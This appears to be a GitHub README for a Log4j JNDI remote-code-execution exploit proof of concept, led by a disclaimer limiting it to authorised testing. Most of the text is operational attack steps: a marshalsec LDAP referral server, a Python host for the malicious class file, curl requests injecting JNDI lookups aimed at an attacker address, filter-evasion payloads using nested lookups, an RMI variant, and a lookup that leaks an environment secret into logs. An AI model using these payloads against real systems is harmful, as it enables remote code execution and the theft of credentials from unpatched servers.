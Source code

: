 ### Use this information only for learning, testing your own systems, with permission or to fix your stuff. Do not attack machines you do now have permission to.

# CVE-2021-45046

Vulnerable software:
Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0

Log4j recursively expands certain strings when it logs them.
Log4j expands JNDI (java naming and directory interface) strings, which allow LDAP (directory service) requests
An attacker may set up an LDAP service that response with a referrer. JNDI will then happily download the referred to class file from the specified source and execute the code inside of it. The attacker may compile his own java code and serve it with a web server.

So long as an attacker is able to make the target log a specifically crafted string with a vulnerable log4j library, he can execute arbitrary code.
Because the strings are expanded recursively, filtering is easily bypassed.

# Setup:

compile with compatible java version for target. example:

```bash
/usr/lib/jvm/java-8-openjdk-amd64/bin/javac Exploit.java
```

run ldap referrer server (https://github.com/mbechler/marshalsec)

```bash
export IP="ip.of.attacker.machine"      # ip of the python http web server
export PYPORT="8000"                    # port for python simple http server
export LDAPPORT="1389"                  # optional, port to bind the ldap server to
java -cp /home/paul/repositories/marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://$IP:$PYPORT/#Exploit" $LDAPPORT
```

run python web server to host the `.class` files

```bash
python -m http.server $PYPORT
```

then somehow make the target log this string with a vulnerable log4j

```text
${jndi:ldap://ip.of.attacker.machine:ldapport/Exploit}
```

```bash
curl 'http://target.tld/solr/admin/cores?foo=$\{jndi:ldap://ip.of.attacker.machine:ldapport/Exploit\}'
```


# Bypasses

Since Log4j does recursive string expansion, simply filtering for "jndi" for example will not work.

```text
${env:ENV_NAME:-j}
${upper:n}
${lower:d}
${::-i}
```

```bash
curl 'http://target.tld/vulnerable/uri/endpoit/loggin/query/parameters?bar=$\{$\{upper:j\}$\{::-n\}$\{upper:d\}$\{lower:i\}:ldap://attacker.ip:1389/Exploit\}'
```

we can use this method to build the whole string. We can even go in further and expand the `u` in `upper` for example.

Also marshalsec can do RMI protocol.
Simply start with `marshalsec.jndi.RMIRefServer`, and instead of `ldap://` use `rmi://` in the exploit string

# Other stuff
log4j can expand arbitrary environment variables
even without RCE this can be bad.

```text
${env:SECRET_API_KEY}
```

if you can get your hands on the log files somehow, even without RCE, you can extract information

# More resources
## General
- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/
- https://github.com/YfryTchsGD/Log4jAttackSurface
- https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
- https://log4shell.huntress.com/
- https://www.youtube.com/watch?v=7qoPDq41xhQ

## Detection
- https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes
- https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d
- https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228
- https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1
- https://github.com/darkarnium/CVE-2021-44228

## Mitigation
Consult your software distributor. Generally: Update log4j.

